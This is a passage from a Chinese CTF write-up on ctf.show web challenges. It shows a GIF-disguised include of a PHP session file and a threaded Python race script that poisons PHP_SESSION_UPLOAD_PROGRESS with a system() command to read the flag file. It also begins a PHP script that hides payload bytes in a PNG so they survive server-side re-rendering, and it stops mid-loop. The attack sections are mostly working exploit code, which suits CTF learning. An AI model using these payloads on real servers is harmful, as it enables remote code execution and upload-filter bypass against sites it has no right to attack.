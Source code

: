 这里实现了包含png 我们接下来上传png文件

需要包含临时文件 /tmp/sess_xioa

```cobol
GIF89a
<?include"/tmp/sess_xioa"?>
```

这个是yu师傅的代码 其实我们看一下也知道了如何实现

```cobol
import requests
import threading
session=requests.session()
sess='xioa'
url1="http://f275f432-9203-4050-99ad-a185d3b6f466.chall.ctf.show/"
url2="http://f275f432-9203-4050-99ad-a185d3b6f466.chall.ctf.show/upload"
data1={
	'PHP_SESSION_UPLOAD_PROGRESS':'<?php system("tac ../f*");?>'
}
file={
	'file':'abcd'
}
cookies={
	'PHPSESSID': sess
}
 
def write():
	while True:
		r = session.post(url1,data=data1,files=file,cookies=cookies)
def read():
	while True:
		r = session.get(url2)
		if 'ctfshow' in r.text:
			print(r.text)
			
threads = [threading.Thread(target=write),
       threading.Thread(target=read)]
for t in threads:
	t.start()
```

## web164  PNG二次渲染

这里记录一下二次渲染脚本

```cobol
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);
 
 
 
$img = imagecreatetruecolor(32, 32);
 
for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
```